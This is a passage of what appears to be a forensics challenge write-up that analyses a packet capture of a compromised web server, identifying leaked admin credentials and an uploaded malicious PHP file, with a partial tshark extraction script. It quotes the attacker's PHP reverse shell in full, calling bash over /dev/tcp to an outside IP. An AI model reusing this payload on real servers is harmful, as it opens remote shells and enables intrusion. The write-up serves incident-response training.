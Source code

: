 In Credentials tab, web can see the last credentials is `admin:admin123`, so we can guess that account is correct and attacker use for logging in admin account.

<img src=https://github.com/user-attachments/assets/a966af35-0b38-4aa8-a805-4c4bdd7cb8d4 width=100%>
<p></p>

![{50C129CB-8289-46BB-958D-242C5FDB56F7}](https://github.com/user-attachments/assets/6aae66b8-ed3a-478f-8c26-c60f6b2393cb)

**Answer: admin:admin123!**

### Q9. We need to determine if the attacker gained further access or control of our web server. What's the name of the malicious script uploaded by the attacker?

Attacker create and upload file with a reverse shell to gain further access from compromised web server to C&C: `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"111.224.250.131"/443 0>&1'");?>`

![{C61C8527-DCC9-42D4-953B-793FE44EC322}](https://github.com/user-attachments/assets/deec52e9-0025-49f3-9b58-f3f821c8a057)

**Answer: NVri2vhp.php**


## References

- [1] SQL Injection: https://portswigger.net/web-security/sql-injection
- [2] Tshark: https://www.wireshark.org/docs/man-pages/tshark.html
- [3] Gobuster: https://github.com/OJ/gobuster
- [4] sqlmap: https://sqlmap.org/
- [5] Full code:
```
import subprocess

# Define the path to the pcap file and the tshark command
pcap_file = "WebInvestigation.pcap"
tshark_path = "tshark"      # Adjust this path if necessary or using just "tshark" if it's in PATH variable environment

# Read parameters from file (one URI per line)
with open("parameter_values.txt", "r", encoding="utf-8") as f:
    parameters = [line.strip() for line in f if line.strip()]

for parameter in parameters:
    # Escape special characters in the URI for the filter
    escaped_param = parameter.replace('"', '\\"')
    
    # Build the tshark command
    command = [
        tshark_path,
        "-r", pcap_file,
        "-Y", f'(ip.dst == 111.224.250.131) && (http.response.code == 200) && (http.request.uri == "{escaped_param}")',
        "-T", "fields",
        "-e", "http.file_data"
    ]

    try:
        # Run the command
        result = subprocess.run(command, capture_output=True, text=True, check=True)
        
        # Process the output
        if result.stdout:
            # Remove whitespace and check if it's hex data
            output = result.stdout.strip()
            if output:
                try:
```